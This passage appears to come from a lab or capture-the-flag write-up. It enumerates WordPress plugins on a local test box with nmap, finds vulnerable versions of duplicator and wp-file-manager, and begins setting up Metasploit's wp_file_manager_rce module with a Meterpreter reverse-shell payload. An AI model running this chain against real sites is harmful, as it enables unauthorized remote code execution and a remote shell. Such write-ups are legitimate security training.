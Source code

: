 This found a plugin. And it only looked at the top 100. So I relaunched it with a bigger limit. A limit of 1000 did not find anything more. So I tried again with 10 000. 

```bash
$ nmap -sV --script http-wordpress-enum --script-args search-limit=10000 -p 80 localhost 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 09:46 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00034s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-wordpress-enum: 
| Search limited to top 4778 themes/plugins
|   plugins
|     duplicator 1.3.26
|_    wp-file-manager 6.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 314.22 seconds

```

We now have two plugins to look at. The duplicator plugin has an [arbitrary file read vulnerability](https://www.exploit-db.com/exploits/49288). And the wp-file-manager plugin is vulnerable to [Remote Code Execution](https://www.exploit-db.com/exploits/49178). 

I decided to try using Metasploit to exploit the RCE vulnerability to get a shell. 

```bash
msfconsole 

msf6 > search CVE-2020-25213

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_file_manager_rce

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > show options 

Module options (exploit/multi/http/wp_file_manager_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND    upload           yes       elFinder commands used to exploit the vulnerability (Accepted: upload, mkfile+put)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to WordPress installation
   VHOST                       no        HTTP server virtual host

```